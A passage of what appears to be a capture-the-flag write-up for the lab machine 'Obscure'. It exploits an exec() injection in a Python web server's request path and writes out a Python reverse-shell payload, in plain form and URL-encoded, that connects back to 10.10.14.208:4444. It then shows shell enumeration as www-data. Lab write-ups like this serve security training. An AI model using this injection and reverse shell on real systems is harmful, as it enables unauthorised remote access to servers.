 The script is a bit long but we can see the line
`exec(info.format(path))` where `path` is the user input (the path in a GET
request). The use of the `exec()` function is dangerous as
`exec(os.system(<cmd>))` will execute the command on the system (if `os` is
imported).

Here there is some python before the `exec()`:
`info = "output = 'Document: {}'"` so we need to "escape" this string. We try a
few thing on our system:

    :::text
    >>> path = ''
    >>> exec(info.format(path))
    >>> path = "test'; print('boom'); 'test"
    >>> exec(info.format(path))
    boom

So we can insert some payload between the two `;`. As the server is running
python we will use the [python TCP reverse
shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

So our payload is: `test'; import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.208",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'test`.

We get a error 400 "Bad request", so we encode our payload with Burp (url encode
all characters). The payload look like the following in burp repeater (yes I
also encoded the first `/` which not part of our payload):

    :::text
    GET %2f%74%65%73%74%27%3b%20%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%34%2e%32%30%38%22%2c%34%34%34%34%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%69%6d%70%6f%72%74%20%70%74%79%3b%20%70%74%79%2e%73%70%61%77%6e%28%22%2f%62%69%6e%2f%62%61%73%68%22%29%3b%27%74%65%73%74 HTTP/1.1

    Host: 10.10.10.168:8080

This give us a reverse shell as `www-data`. We start enumerating the box and
found interesting files in the `robert` home folder.

    :::text
    www-data@obscure:/$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@obscure:/$ ls /home/
    ls /home/
    robert
    www-data@obscure:/$ ls /home/robert/
    ls /home/robert/
    BetterSSH  enum     passwordreminder.txt  user.txt
    check.txt  out.txt  SuperSecureCrypt.py
    www-data@obscure:/$ ls /home/robert/BetterSSH/
    ls /home/robert/BetterSSH/
    BetterSSH.py
